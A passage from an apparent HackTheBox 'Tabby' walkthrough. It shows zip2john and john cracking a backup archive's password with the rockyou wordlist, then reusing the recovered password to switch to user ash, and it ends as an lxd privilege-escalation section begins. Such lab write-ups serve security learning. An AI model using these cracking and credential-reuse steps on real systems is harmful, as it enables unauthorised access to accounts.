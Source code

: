 Let's using `zip2john` to get a hash of this file and crack it.

```
┌──(Hades㉿10.10.14.5)-[0.6:31.2]~/walkthrough/hackthebox/tabby
└─$ zip2john 16162020_backup.zip > hash
```

Using directory rockyou.txt to crack file hash and I got the password `admin@it`

```
┌──(Hades㉿10.10.14.5)-[0.6:31.2]~/walkthrough/hackthebox/tabby
└─$ john hash --wordlist=/home/kali/directory/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (16162020_backup.zip)
1g 0:00:00:01 DONE (2021-04-08 11:05) 0.6944g/s 7196Kp/s 7196Kc/s 7196KC/s adnc153..adenabuck
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Unzip this file but I don't have more info, this is only backup file for the web application.

```
┌──(Hades㉿10.10.14.5)-[0.6:31.3]~/walkthrough/hackthebox/tabby
└─$ unzip 16162020_backup.zip
Archive:  16162020_backup.zip
   creating: var/www/html/assets/
[16162020_backup.zip] var/www/html/favicon.ico password: 
  inflating: var/www/html/favicon.ico  
   creating: var/www/html/files/
  inflating: var/www/html/index.php  
 extracting: var/www/html/logo.png   
  inflating: var/www/html/news.php   
  inflating: var/www/html/Readme.txt
```

In the other way, I try to login to user `ash` with some knowed password `$3cureP4s5w0rd123!` and `admin@it`.

With password `admin@it`, I got user permission.

```
tomcat@tabby:/home$ ls
ash
tomcat@tabby:/home$ su ash
Password: 
ash@tabby:/home$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

### lxd/lxc mount file

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/tabby)

Checking user ash, this user in lxd/lxc group
